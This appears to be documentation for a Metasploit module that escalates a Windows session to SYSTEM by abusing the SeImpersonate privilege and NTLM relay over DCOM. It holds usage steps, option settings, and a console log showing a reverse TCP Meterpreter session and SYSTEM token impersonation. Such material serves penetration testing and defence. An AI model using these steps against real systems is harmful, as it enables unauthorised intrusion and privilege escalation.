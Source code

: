 ## Introduction

  This module will abuse the SeImperonsate privilege commonly found in
services due to the requirement to impersonate a client upon
authentication. As such it is possible to impersonate the SYSTEM account
and relay its NTLM hash to RPC via DCOM. The DLL will perform a MiTM
attack at which intercepts the hash and relay responses from RPC to be
able to establish a handle to a new SYSTEM token. Some caveats : Set
your target option to match the architecture of your Meterpreter
session, else it will inject the wrong architecture DLL into the process
of a separate architecture. Additionally, after you have established a
session, you must use incognito to imperonsate the SYSTEM Token.

## Build Instructions

This builds using visual studio 2017 and tools v141.  Attempts
to compile with previous verstions of build tools will succeed but
the resulting binary fails to exploit the vulnerability.

## Usage

  You'll first need to obtain a session on the target system.
  Next, once the module is loaded, one simply needs to set the
```payload``` and ```session``` options, in addition to architecture.

  Your user at which you are trying to exploit must have `SeImpersonate`
privileges.

  The module has a hardcoded timeout of 20 seconds, as the attack may
not work immediately and take a few seconds to start. Also, check to
make sure port 6666 is inherently not in use else the exploit will not
run properly.

## Scenarios

```
  Name Current Setting Required Description
   ---- --------------- -------- -----------
   SESSION 48 yes The session to run this module on. Payload options
(windows/x64/meterpreter/reverse_tcp):
   Name Current Setting Required Description
   ---- --------------- -------- -----------
   EXITFUNC thread yes Exit technique (Accepted: '', seh, thread,
process, none)
   LHOST ens3 yes The listen address (an interface may be specified)
   LPORT 3312 yes The listen port Exploit target:
   Id Name
   -- ----
   1 Windows x64 msf exploit(windows/local/ms16_075_reflection) > run
[*] Started reverse TCP handler on -snip-:3312
[+] Reflectively injecting the exploit DLL and triggering the exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to -snip-
[*] Meterpreter session 49 opened (-snip-:3312 -> -snip-:55306) at 2018-08-03 01:54:18 -0400
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > impersonate_token
'NT AUTHORITY\SYSTEM'
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getsystem -t 1 ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter >
```
